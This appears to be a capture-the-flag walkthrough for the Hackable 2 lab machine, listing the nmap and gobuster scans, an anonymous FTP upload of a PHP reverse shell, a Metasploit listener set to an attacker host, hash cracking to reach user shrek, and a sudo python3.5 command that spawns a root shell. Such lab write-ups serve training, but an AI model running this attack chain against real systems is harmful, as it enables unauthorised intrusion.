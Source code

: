 # 🐉 Hackable 2 CTF – Summary Walkthrough  

A full text-based breakdown of the Hackable 2 vulnerable machine. This box showcases misconfigured FTP services, web shell upload, horizontal privilege escalation through exposed credentials, and abusing Python binary privileges for root access.  

## 🔍 Discovery  
- Ran `nmap` scans:  
nmap -sV -Pn <ip>
nmap -A <ip>

- Found open ports:  
- 21 (FTP – anonymous login enabled)  
- 22 (SSH)  
- 80 (HTTP – Apache web service)  

✅ Multiple exposed services provide several attack vectors.  

## 📂 Enumeration  
- Ran `gobuster` on port 80:  
gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,log,php,html,bak,zip

- Discovered:  
- `/files`  
- `/index.html`  

- Checked FTP:  
ftp <ip>
Username: anonymous
Password: (blank)

✅ Anonymous login was allowed and confirmed write permissions.  

## ⚙️ Foothold  
- Uploaded PHP reverse shell via FTP into `/files`:  
put shell.php

- Set up listener with Metasploit:  
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <port>
run

- Triggered the shell by visiting:  
http://<ip>/files/shell.php

✅ Meterpreter reverse shell established as `www-data`.  

## 💻 User Escalation (www-data → shrek)  
- Found `/home/important.txt` → referenced a script `runme.sh`.  
- Ran the script:  
./runme.sh

- Output contained a password hash for user `shrek`.  
- Cracked the hash using CrackStation → retrieved plaintext password.  
- Switched user:  
su shrek

✅ Access as user `shrek`.  

## 🔐 Privilege Escalation (shrek → root)  
- Checked sudo privileges:  
sudo -l

- Found user `shrek` could run **python3.5** as root without a password.  
- Exploited this by running:  
sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'

✅ Root shell gained. 🎉  

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/hackable-2-ctf-full-technical-walkthrough-e54effd80f50)
